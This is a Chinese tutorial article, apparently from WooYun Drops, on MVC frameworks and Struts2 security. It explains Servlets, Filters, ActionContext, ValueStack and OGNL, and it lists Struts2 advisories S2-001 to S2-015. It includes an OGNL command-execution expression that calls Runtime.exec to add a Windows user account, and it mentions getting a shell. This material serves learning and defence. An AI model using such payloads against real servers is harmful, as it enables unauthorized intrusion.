# 攻击 JavaWeb 应用[5]-MVC 安全 

2013/07/25 13:31 | [园长](http://drops.wooyun.org/author/园长 "由 园长 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

##### 注:这一节主要是消除很多人把 JSP 当作了 JavaWeb 的全部的误解，了解 MVC 及其框架思想。MVC 是用于组织代码用一种业务逻辑和数据显示分离的方法，不管是 Java 的 Struts2、SpringMVC 还是 PHP 的 ThinkPHP 都爆出过高危的任意代码执行,本节重在让更多的人了解 MVC 和 MVC 框架安全，由浅到深尽可能的照顾没 Java 基础的朋友。所谓攻击 JavaWeb，如果连 JavaWeb 是个什么，有什么特性都不知道，就算能用 Struts 刷再多的 RANK 又有何意义？还不如沏一杯清茶，读一本好书，不浮躁，撸上一天。

### 0x00、初识 MVC

* * *

传统的开发存在结构混乱易用性差耦合度高可维护性差等多种问题，为了解决这些毛病分层思想和 MVC 框架就出现了。MVC 是三个单词的缩写,分别为： **模型(Model),视图(View) 和控制(Controller)**。 MVC 模式的目的就是实现 Web 系统的职能分工。

**Model 层**实现系统中的**业务逻辑**，通常可以用 JavaBean 或 EJB 来实现。

**View*层**用于与**用户的交互**，通常用 JSP 来实现(前面有讲到，JavaWeb 项目中如果不采用 JSP 作为展现层完全可以没有任何 JSP 文件，甚至是过滤一切 JSP 请求，JEECMS 是一个最为典型的案例)。

**Controller 层**是**Model 与 View 之间沟通的桥梁**，它可以分派用户的请求并选择恰当的视图用于显示，同时它也可以解释用户的输入并将它们映射为模型层可执行的操作。


#### **Model1 和 Model2：**

Model1 主要是用 JSP 去处理来自客户端的请求，所有的业务逻辑都在一个或者多个 JSP 页面里面完成，这种是最不科学的。举例:http://localhost/show_user.jsp?id=2。JSP 页面获取到参数 id=2 就会带到数据库去查询数据库当中 id 等于 2 的用户数据，由于这样的实现方式虽然简单，但是维护成本就非常高。JSP 页面跟逻辑业务都捆绑在一起高耦合了。而软件开发的目标就是为了去解耦，让程序之间的依赖性减小。在 model1 里面 SQL 注入等攻击简直就是家常便饭。因为在页面里面频繁的去处理各种业务会非常麻烦，更别说关注安全了。典型的 Model1 的代码就是之前用于演示的 SQL 注入的 JSP 页面。

#### **Model1 的流程：**



Model 2 表示的是基于 MVC 模式的框架，JSP+Servlet。Model2 已经带有一定的分层思想了，即 Jsp 只做简单的展现层，Servlet 做后端的业务逻辑处理。这样视图和业务逻辑就相应的分开了。例如：[`localhost/ShowUserServlet?id=2`](http://localhost/ShowUserServlet?id=2)。也就是说把请求交给 Servlet 处理，Servlet 处理完成后再交给 jsp 或 HTML 做页面展示。JSP 页面就不必要去关心你传入的 id=2 是怎么查询出来的，而是怎么样去显示 id=2 的用户的信息(多是用 EL 表达式或 JSP 脚本做页面展现)。视图和逻辑分开的好处是可以更加清晰的去处理业务逻辑，这样的出现安全问题的几率会相对降低。



#### **Mvc 框架存在的问题:**

当 Model1 和 Model2 都难以满足开发需求的时候，通用性的 MVC 框架也就产生了，模型视图控制器，各司其责程序结构一目了然，业务安全相关控制井井有序，这便是 MVC 框架给我们带来的好处，但是不幸的是由于 MVC 的框架的实现各自不同，某些东西因为其越来越强大，而衍生出来越来越多的安全问题，**典型的由于安全问题处理不当造成近期无数互联网站被黑阔攻击的 MVC 框架便是 Struts2**。神器过于锋利伤到自己也就在所难免了。而在 Struts 和 Spring 当中最喜欢被人用来挖 0day 的就是标签和 OGNL 的安全处理问题了。

#### **Spring Mvc:**

Spring 框架提供了构建 Web 应用程序的全功能 MVC 模块。使用 Spring 可插入的 MVC 架构，可以选择是使用内置的 Spring Web 框架还是 Struts 这样的 Web 框架。通过策略接口，Spring 框架是高度可配置的，而且包含多种视图技术，例如 JavaServer Pages（JSP）技术、Velocity、Tiles、iText 和 POI、Freemarker。Spring MVC 框架并不知道使用的视图，所以不会强迫您只使用 JSP 技术。Spring MVC 分离了控制器、模型对象、分派器以及处理程序对象的角色，这种分离让它们更容易进行定制。

#### **Struts2:**

Struts 是 apache 基金会 jakarta 项目组的一个开源项目，采用 MVC 模式，能够很好的帮助我们提高开发 web 项目的效率。Struts 主要采用了 servlet 和 jsp 技术来实现，把 servlet、jsp、标签库等技术整合到整个框架中。Struts2 比 Struts1 内部实现更加复杂，但是使用起来更加简单，功能更加强大。

Struts2 历史版本下载地址：[`archive.apache.org/dist/struts/binaries/`](http://archive.apache.org/dist/struts/binaries/)

官方网站是: [`struts.apache.org/`](http://struts.apache.org/)

#### **常见 MVC 比较：**

按性能排序：1、Jsp+servlet>2、struts1>2、spring mvc>3、struts2+freemarker>>4、struts2,ognl,值栈。

**开发效率上,基本正好相反。值得强调的是，Spring mvc 开发效率和 Struts2 不相上下。**

Struts2 的性能低的原因是因为 OGNL 和值栈造成的。所以如果你的系统并发量高，可以使用 freemaker 进行显示，而不是采用 OGNL 和值栈。这样，在性能上会有相当大得提高。

而每一次 Struts2 的远程代码执行的原因都是因为 OGNL。

当前 JavaWeb 当中最为流行的 MVC 框架主要有 Spring MVC 和 Struts。相比 Struts2 而言，SpringMVC 具有更轻巧，更简易，更安全等优点。但是由于 SpringMVC 历史远没有 Struts 那么悠久，SpringMVC 想要在一朝一夕颠覆 Struts1、2 还是非常有困难的。

#### ***JavaWeb 的 Servlet 和 Filter：***

可以说 JavaWeb 和 PHP 的实现有着本质的区别，PHP 属于解释性语言.不需要在服务器启动的时候就通过一堆的配置去初始化 apps 而是在任意一个请求到达以后再去加载配置完成来自客户端的请求。ASP 和 PHP 有个非常大的共同点就是不需要预先编译成类似 Java 的字节码文件，所有的类方法都存在于*.PHP 文件当中。而在 Java 里面可以在项目启动时去加载配置到 Servlet 容器内。在 web.xml 里面配置一个 Servlet 或者 Filter 后可以非常轻松的拦截、过滤来自于客户端的任意后缀请求。在系列 2 的时候就有提到 Servlet，这里再重温一下。

##### **Servlet 配置：**

```
<servlet>
    <servlet-name>LoginServlet</servlet-name>
<servlet-class>org.javaweb.servlet.LoginServlet</servlet-class>
</servlet>
<servlet-mapping>
    <servlet-name>LoginServlet</servlet-name>
    <url-pattern>/servlet/LoginServlet.action</url-pattern>
</servlet-mapping> 
```

##### **Filter 配置：**

```
<filter>
    <filter-name>struts2</filter-name>
        <filter-class>org.apache.struts2.dispatcher.ng.filter.StrutsPrepareAndExecuteFilter</filter-class>
    </filter>
    <filter-mapping>
        <filter-name>struts2</filter-name>
        <url-pattern>/*</url-pattern>
    </filter-mapping> 
```

Filter 在 JavaWeb 当中用来做权限控制再合适不过了，再也不用在每个页面都去做 session 验证了。假如过滤的 url-pattern 是/admin/*那么所有 URI 中带有 admin 的请求都必须经过如下 Filter 过滤：



**Servlet 和 Filter 一样都可以拦截所有的 URL 的任意方式的请求。**其中 url-pattern 可以是任意的 URL 也可以是诸如*.action 通配符。既然能拦截任意请求如若要做参数和请求的净化就会非常简单了。servlet-name 即标注一个 Servlet 名为 LoginServlet 它对应的 Servlet 所在的类是 org.javaweb.servlet.LoginServlet.java。由此即可发散开来，比如如何在 Java 里面实现通用的恶意请求（通用的 SQL 注入、XSS、CSRF、Struts2 等攻击）？敏感页面越权访问？（传统的动态脚本的方式实现是在每个页面都去加 session 验证非常繁琐，有了 filter 过滤器，便可以非常轻松的去限制目录权限）。

上面贴出来的过滤器是 Struts2 的典型配置,StrutsPrepareAndExecuteFilter 过滤了/*，即任意的 URL 请求也就是 Struts2 的第一个请求入口。任何一个 Filter 都必须去实现 javax.servlet.Filter 的 Filter 接口，即 init、doFilter、destroy 这三个接口，这里就不细讲了，有兴趣的朋友自己下载 JavaEE6 的源码包看下。

```
public void init(FilterConfig filterConfig) throws ServletException;
public void doFilter ( ServletRequest request, ServletResponse response, FilterChain chain ) throws IOException, ServletException;
public void destroy(); 
```

**TIPS:**

在 Eclipse 里面看一个接口有哪些实现,选中一个方法快捷键 Ctrl+t 就会列举出当前接口的所有实现了。例如下图我们可以轻易的看到当前项目下实现 Filter 接口的有如下接口，其中 SecFilter 是我自行实现的，StrutsPrepareAndExecuteFilter 是 Struts2 实现的，这个实现是用于 Struts2 启动和初始化的，下面会讲到：



### 0x01、Struts 概述

* * *

***Struts1、Struts2、Webwork 关系：***

Struts1 是第一个广泛流行的 mvc 框架，使用及其广泛。但是，随着技术的发展，尤其是 JSF、ajax 等技术的兴起，Struts1 有点跟不上时代的步伐，以及他自己在设计上的一些硬伤，阻碍了他的发展。

同时，大量新的 mvc 框架渐渐大踏步发展，尤其是 webwork。Webwork 是 opensymphony 组织开发的。Webwork 实现了更加优美的设计，更加强大而易用的功能。

后来，struts 和 webwork 两大社区决定合并两个项目，完成 struts2.事实上，**struts2 是以 webwork 为核心开发的，更加类似于 webwork 框架，跟 struts1 相差甚远**。

#### **STRUTS2 框架内部流程：**

```
1\. 客户端发送请求的 tomcat 服务器。服务器接受，将 HttpServletRequest 传进来。
2\. 请求经过一系列过滤器(如：ActionContextCleanUp、SimeMesh 等)
3\. FilterDispatcher 被调用。FilterDispatcher 调用 ActionMapper 来决定这个请求是否要调用某个 Action
4\. ActionMapper 决定调用某个 ActionFilterDispatcher 把请求交给 ActionProxy
5\. ActionProxy 通过 Configuration Manager 查看 struts.xml，从而找到相应的 Action 类
6\. ActionProxy 创建一个 ActionInvocation 对象
7\. ActionInvocation 对象回调 Action 的 execute 方法
8\. Action 执行完毕后，ActionInvocation 根据返回的字符串，找到对应的 result。然后将 Result 内容通过 HttpServletResponse 返回给服务器。 
```

#### **SpringMVC 框架内部流程**：

```
1.用户发送请求给服务器。url：user.do
2.服务器收到请求。发现 DispatchServlet 可以处理。于是调用 DispatchServlet。
3.DispatchServlet 内部，通过 HandleMapping 检查这个 url 有没有对应的 Controller。如果有，则调用 Controller。
4.Controller 开始执行。
5.Controller 执行完毕后，如果返回字符串，则 ViewResolver 将字符串转化成相应的视图对象；如果返回 ModelAndView 对象，该对象本身就包含了视图对象信息。
6.DispatchServlet 将执视图对象中的数据，输出给服务器。
7.服务器将数据输出给客户端。 
```

在看完 Struts2 和 SpringMVC 的初始化方式之后不知道有没有对 MVC 架构更加清晰的了解。

#### **Struts2 请求处理流程分析:**



```
1、服务器启动的时候会自动去加载当前项目的 web.xml
2、在加载 web.xml 配置的时候会去自动初始化 Struts2 的 Filter，然后把所有的请求先交于 Struts 的 org.apache.struts2.dispatcher.ng.filter.StrutsPrepareAndExecuteFilter.java 类去做过滤处理。
3、而这个类只是一个普通的 Filter 方法通过调用 Struts 的各个配置去初始化。
4、初始化完成后一旦有 action 请求都会经过 StrutsPrepareAndExecuteFilter 的 doFilter 过滤。
5、doFilter 中的 ActionMapping 去映射对应的 Action。
6、ExecuteOperations 
```



源码、配置和访问截图：



### 0x02、Struts2 中 ActionContext、ValueStack、Ognl

* * *

在学习 Struts 命令执行之前必须得知道什么是 OGNL、ActionContext、ValueStack。在前面已经强调过很多次容器的概念了。这地方不敢再扯远了，不然就再也扯回不来了。大概理解：tomcat 之类的是个大箱子，里面装了很多小箱子，小箱子里面装了很多小东西。而 Struts2 其实就是在把很多东西进行包装，要取小东西的时候直接从 struts2 包装好的箱子里面去拿就行了。

#### **ActionContext 对象：**

Struts1 的 Action 必须依赖于 web 容器，他的 extecute 方法会自动获得 HttpServletRequest、HttpServletResponse 对象，从而可以跟 web 容器进行交互。

Struts2 的 Action 不用依赖于 web 容器，本身只是一个普通的 java 类而已。但是在 web 开发中我们往往需要获得 request、session、application 等对象。这时候，可以通过 ActionContext 来处理。

ActionContext 正如其名，是 Action 执行的上下文。他内部有个 map 属性，它存放了 Action 执行时需要用到的对象。

在每次执行 Action 之前都会创建新的 ActionContext 对象，***通过 ActionContext 获取的 session、request、application 并不是真正的 HttpServletRequest、HttpServletResponse、ServletContext 对象，***而是将这三个对象里面的值重新包装成了 map 对象。这样的封装，我们及获取了我们需要的值，同时避免了跟 Web 容器直接打交道，实现了完全的解耦。

测试代码：

```
public class TestActionContextAction extends ActionSupport{
    private String uname;
    public String execute() throws Exception {
        ActionContext ac = ActionContext.getContext();
        System.out.println(ac);    //在此处定义断点
        return this.SUCCESS;
    }
    //get 和 set 方法省略！
} 
```

我们设置断点，debug 进去，跟踪 ac 对象的值。发现他有个 table 属性，该属性内部包含一个 map 属性，该 map 中又有多个 map 属性，他们分别是：

request、session、application、action、attr、parameters 等。

同时，我们跟踪 request 进去，发现属性 attribute 又是一个 table，再进去发现一个名字叫做”struts.valueStack”属性。内容如下：



OgnlValueStack 可以简单看做 List，里面还放了 Action 对象的引用，通过它可以得到该 Action 对象的引用。

下图说明了几个对象的关系：



1.  ActionContext、Action 本身和 HttpServletRequest 对象没有关系。但是为了能够使用 EL 表达式、JSTL 直接操作他们的属性。会有**一个拦截器**将 ActionContext、Action 中的属性通过类似 request.setAttribute()方法置入 request 中(webwork2.1 之前的做法)。这样，我们也可以通过：${requestScope.uname}即可访问到 ActionContext 和 Action 中的属性。

##### 注：struts2 后，使用装饰器模式来实现上述功能。

Action 的实例，总是放到 value stack 中。因为 Action 放在 stack 中，而 stack 是 root(根对象)，所以对 Action 中的属性的访问就可以省略#标记。

#### **获取 Web 容器信息：**

在上面我**GETSHELL 或者是输出回显的时候就必须获取到容器中的请求和响应对象**。而在 Struts2 中通过 ActionContext 可以获得 session、request、application，但他们并不是真正的 HttpServletRequest、HttpServletResponse、ServletContext 对象，而是将这三个对象里面的值重新包装成了 map 对象。 Struts 框架通过他们来和真正的 web 容器对象交互。

```
获得 session：ac.getSession().put("s", "ss");
获得 request：Map m = ac.get("request");
获得 application： ac.getApplication(); 
```

**获取 HttpServletRequest、HttpServletResponse、ServletContext:**

有时，我们需要真正的 HttpServletRequest、HttpServletResponse、ServletContext 对象，怎么办? 我们可以通过 ServletActionContext 类来得到相关对象，代码如下：

```
HttpServletRequest req = ServletActionContext.*getRequest*();
ServletActionContext.*getRequest*().getSession();
ServletActionContext.*getServletContext*(); 
```

#### **Struts2 OGNL:**

OGNL 全称是 Object-Graph  Navigation  Language(对象图形导航语言)，Ognl 同时也是 Struts2 默认的表达式语言。每一次 Struts2 的命令执行漏洞都是通过 OGNL 去执行的。在写这文档之前，乌云的 drops 已有可够参考的 Ognl 文章了[`drops.wooyun.org/papers/340`](http://drops.wooyun.org/papers/340)。这里只是简单提下。

```
1、能够访问对象的普通方法
2、能够访问类的静态属性和静态方法
3、强大的操作集合类对象的能力
4、支持赋值操作和表达式串联
5、访问 OGNL 上下文和 ActionContext 
```

Ognl 并不是 Struts 专用，我们一样可以在普通的类里面一样可以使用 Ognl，比如用 Ognl 去访问一个普通对象中的属性：



在上面已经列举出了 Ognl 可以调用静态方法，比如表达式使用表达式去调用 runtime 执行命令执行：

```
@java.lang.Runtime@getRuntime().exec('net user selina 123 /add') 
```

而在 Java 当中静态调用命令行的方式：

```
java.lang.Runtime.*getRuntime*().exec("net user selina 123 /add"); 
```



### 0x03、Struts 漏洞

* * *

Struts2 究竟是个什么玩意，漏洞爆得跟来大姨妈紊乱似的，连续不断。前面已经提到了由于 Struts2 默认使用的是 OGNL 表达式，而 OGNL 表达式有着访问对象的普通方法和静态方法的能力。开发者无视安全问题大量的使用 Ognl 表达式这正是导致 Struts2 漏洞源源不断的根本原因。通过上面的 DEMO 应该差不多知道了 Ognl 执行方式，而 Struts2 的每一个命令执行后面都坚挺着一个或多个可以绕过补丁或是直接构造了一个可执行的 Ognl 表达式语句。

#### **Struts2 漏洞病例：**

Struts2 每次发版后都会 release 要么是安全问题，要么就是 BUG 修改。大的版本发布过一下几个。

[1.3.x/](http://struts.apache.org/release/1.3.x/)                  2013-02-02 17:59    -     [2.0.x/](http://struts.apache.org/release/2.0.x/)                  2013-02-02 11:22    -     [2.1.x/](http://struts.apache.org/release/2.1.x/)                  2013-03-02 14:52    -     [2.2.x/](http://struts.apache.org/release/2.2.x/)                  2013-02-02 16:00    -     [2.3.x/](http://struts.apache.org/release/2.3.x/)                  2013-06-24 11:30    -    

小版本发布了不计其数，具体的小版本下载地址：[`archive.apache.org/dist/struts/binaries/`](http://archive.apache.org/dist/struts/binaries/)

#### **Struts 公开的安全问题：**

1、Remote code exploit on form validation error: [`struts.apache.org/release/2.3.x/docs/s2-001.html`](http://struts.apache.org/release/2.3.x/docs/s2-001.html)

2、Cross site scripting (XSS) vulnerability on <su0003aurl>and <su0003aa>tags： [`struts.apache.org/release/2.3.x/docs/s2-002.html`](http://struts.apache.org/release/2.3.x/docs/s2-002.html)</su0003aa></su0003aurl>

3、XWork ParameterInterceptors bypass allows OGNL statement execution： [`struts.apache.org/release/2.3.x/docs/s2-003.html`](http://struts.apache.org/release/2.3.x/docs/s2-003.html)

4、Directory traversal vulnerability while serving static content： [`struts.apache.org/release/2.3.x/docs/s2-004.html`](http://struts.apache.org/release/2.3.x/docs/s2-004.html)

5、XWork ParameterInterceptors bypass allows remote command execution： [`struts.apache.org/release/2.3.x/docs/s2-005.html`](http://struts.apache.org/release/2.3.x/docs/s2-005.html)

6、Multiple Cross-Site Scripting (XSS) in XWork generated error pages： [`struts.apache.org/release/2.3.x/docs/s2-006.html`](http://struts.apache.org/release/2.3.x/docs/s2-006.html)

7、User input is evaluated as an OGNL expression when there's a conversion error： [`struts.apache.org/release/2.3.x/docs/s2-007.html`](http://struts.apache.org/release/2.3.x/docs/s2-007.html)

8、Multiple critical vulnerabilities in Struts2： [`struts.apache.org/release/2.3.x/docs/s2-008.html`](http://struts.apache.org/release/2.3.x/docs/s2-008.html) 9、ParameterInterceptor vulnerability allows remote command execution [`struts.apache.org/release/2.3.x/docs/s2-009.html`](http://struts.apache.org/release/2.3.x/docs/s2-009.html)

10、When using Struts 2 token mechanism for CSRF protection, token check may be bypassed by misusing known session attributes： [`struts.apache.org/release/2.3.x/docs/s2-010.html`](http://struts.apache.org/release/2.3.x/docs/s2-010.html)

11、Long request parameter names might significantly promote the effectiveness of DOS attacks： [`struts.apache.org/release/2.3.x/docs/s2-011.html`](http://struts.apache.org/release/2.3.x/docs/s2-011.html)

12、Showcase app vulnerability allows remote command execution： [`struts.apache.org/release/2.3.x/docs/s2-012.html`](http://struts.apache.org/release/2.3.x/docs/s2-012.html)

13、A vulnerability, present in the includeParams attribute of the URL and Anchor Tag, allows remote command execution： [`struts.apache.org/release/2.3.x/docs/s2-013.html`](http://struts.apache.org/release/2.3.x/docs/s2-013.html)

14、A vulnerability introduced by forcing parameter inclusion in the URL and Anchor Tag allows remote command execution, session access and manipulation and XSS attacks： [`struts.apache.org/release/2.3.x/docs/s2-014.html`](http://struts.apache.org/release/2.3.x/docs/s2-014.html)

15、A vulnerability introduced by wildcard matching mechanism or double evaluation of OGNL Expression allows remote command execution.： [`struts.apache.org/release/2.3.x/docs/s2-015.html`](http://struts.apache.org/release/2.3.x/docs/s2-015.html)

